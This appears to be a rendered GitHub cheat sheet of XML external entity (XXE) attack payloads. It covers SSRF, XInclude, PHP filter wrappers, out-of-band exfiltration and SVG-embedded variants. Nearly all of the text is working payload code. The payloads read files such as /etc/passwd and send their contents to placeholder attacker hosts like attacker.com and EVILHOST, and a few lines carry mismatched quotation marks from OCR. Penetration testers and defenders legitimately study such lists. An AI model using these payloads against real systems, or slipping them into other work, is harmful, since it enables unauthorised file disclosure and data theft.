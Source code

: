 <span style="color:#21C587">&#35;</span><strong> XXE to SSRF</strong><br>
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE burp [<!ENTITY burp system "domain"> ]>
<ssrf>&burp;</ssrf>
```

<span style="color:#21C587">&#35;</span><strong> XXE (XInclude attacks)</strong><br>
```xml
<burp xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></burp>
```

<span style="color:#21C587">&#35;</span><strong> XXE (php wrapper)</strong><br>
```xml
<?xml version="1.0"?>
<!DOCTYPE burp [
<!ENTITY burp SYSTEM "php://filter/read=convert.base64-encode/resource=****">]>
<lfi>&burp;</lfi>
```

<span style="color:#21C587">&#35;</span><strong> OOB XXE</strong><br>
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % xxe SYSTEM "http://ip/poc.dtd">
%xxe;
]>
```
```xml
// http://ip/poc.dtd
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?collect=%file;'>">
%all;
```

---
## XXE (feat svg)<br>
<span style="color:#21C587">&#35;</span><strong> XXE</strong><br>
```xml
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/issue" > ]>
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="40" x="0" y="15">&xxe;</text>
</svg>                    
```

<span style="color:#21C587">&#35;</span><strong> Blind XXE & SSRF</strong><br>
```xml
<?xml version="1.0" encoding="UTF-8" standalone="no”?>
<!DOCTYPE ENTY [ <!ENTITY XXE SYSTEM "file:///etc/issue”> ]>
<svg xmlns:svg=”http://www.w3.org/2000/svg" xmlns=”http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height=”200">
<image xlink:href="http://EVILHOST:1337/SSRF?&XXE;" />
</svg>
```
